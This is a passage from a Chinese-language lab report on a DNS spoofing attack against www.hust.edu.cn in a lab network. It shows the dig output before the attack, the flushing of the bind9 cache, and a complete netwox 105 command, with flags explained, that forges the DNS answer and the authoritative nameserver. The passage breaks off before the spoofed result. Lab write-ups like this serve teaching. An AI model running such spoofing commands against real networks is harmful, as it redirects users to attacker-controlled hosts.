 - 攻击前，在客户机使用`dig www.hust.edu.cn`进行`DNS`请求，结果如下所示，该域名对应的正确`IP`为`202.114.0.245`：

```shell
root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 37506
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.hust.edu.cn.		IN	A

;; ANSWER SECTION:
www.hust.edu.cn.	7200	IN	A	202.114.0.245

;; AUTHORITY SECTION:
hust.edu.cn.		172800	IN	NS	dns1.hust.edu.cn.
hust.edu.cn.		172800	IN	NS	dns2.hust.edu.cn.

;; ADDITIONAL SECTION:
dns1.hust.edu.cn.	172800	IN	A	202.114.0.120
dns1.hust.edu.cn.	172800	IN	AAAA	2001:250:4000:2002::888
dns2.hust.edu.cn.	172800	IN	A	59.172.234.181

;; Query time: 4528 msec
;; SERVER: 172.18.0.3#53(172.18.0.3)
;; WHEN: Fri Apr 29 23:09:51 CST 2022
;; MSG SIZE  rcvd: 158
```

![1.3.1.正确的DNS解析结果](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301704197.png)

- 攻击前先清空`DNS`服务器的`DNS`缓存并重启`bind9`服务，以延长服务器相应`DNS`请求的时间，提高攻击成功概率：

```shell
root@DNS_Server:/# sudo rndc flush
root@DNS_Server:/# sudo service bind9 restart
 * Stopping domain name service... bind9
waiting for pid 569 to die
                                                               [ OK ]
 * Starting domain name service... bind9                       [ OK ]
```

![1.3.2.清理缓存](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301704339.png)

- 使用`netwox`伪造`www.hust.edu.cn`的`IP`地址：`sudo netwox 105 -h "www.hust.edu.cn" -H "172.18.0.1" -a "ns.hust.edu.cn" -A "201.91.180.3" -d br-e4a075733e38 -T 600 -f "src host 172.18.0.2"`，其中伪造的`IP`为攻击机的`IP`，伪造的`ns.hust.edu.cn`的`IP`为学号`U201911803`生成的错误`IP`：
  - `-h|--hostname`：域名；
  - `-H|--hostnameip`：域名对应的`ip`；
  -  `-a|--authns`：权威域名服务器；
  -  `-A|--authnsip`：权威域名服务器对应的`ip`；
  - `-d|--device`：要攻击的网卡名；
  - `-T|--ttl`：`DNS`结果的存活时间；
  - `-f|--filter`：过滤器；
  - `-s|--spoofip`：`ip`伪造类型。
- 然后在客户机使用`dig www.hust.edu.cn`进行`DNS`请求，结果如下所示，返回的`IP`地址为上述伪造的`IP`：
